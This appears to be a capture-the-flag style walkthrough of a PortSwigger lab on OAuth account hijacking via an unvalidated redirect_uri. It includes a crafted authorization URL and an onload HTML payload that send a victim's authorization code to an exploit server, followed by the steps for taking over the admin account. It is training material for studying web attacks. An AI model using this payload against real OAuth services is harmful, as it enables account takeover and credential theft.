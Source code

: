 
# 2 - OAuth account hijacking via redirect_uri

This lab uses an OAuth service to allow users to log in with their social media account. A misconfiguration by the OAuth provider makes it possible for an attacker to steal authorization codes associated with other users' accounts.

To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.

The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.

You can log in with your own social media account using the following credentials: wiener:peter.

------------------------------------------------

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/1.png)

<br>

Reference: https://portswigger.net/web-security/oauth

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/2.png)

------------------------------------------------

Generated endpoint: https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/3.png)

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/4.png)

https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://0a0c001204d355fec1a39983009b007d.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email


https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net&response_type=code&scope=openid%20profile%20email

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/5.png)

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/6.png)

Follow redirection:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/7.png)

Access logs:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/8.png)

Payload to open the link:
<body onload="window.open('https://oauth-0a5f00ff04d45537c1f997b8025a00a0.oauth-server.net/auth?client_id=wkw7zy0gcxh46yxashxrk&redirect_uri=https://exploit-0a4c00770488559fc1e198fb01180071.exploit-server.net/&response_type=code&scope=openid%20profile%20email')">

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/9.png)


Deliver exploit to victim:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/10.png)
  
Log out, log in and replace the code with this one:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/11.png)

After the last request, you get admin access:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/12.png)

Admin panel:

![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/14.png)
  
![](images/2%20-%20OAuth%20account%20hijacking%20via%20redirect_uri/15.png)

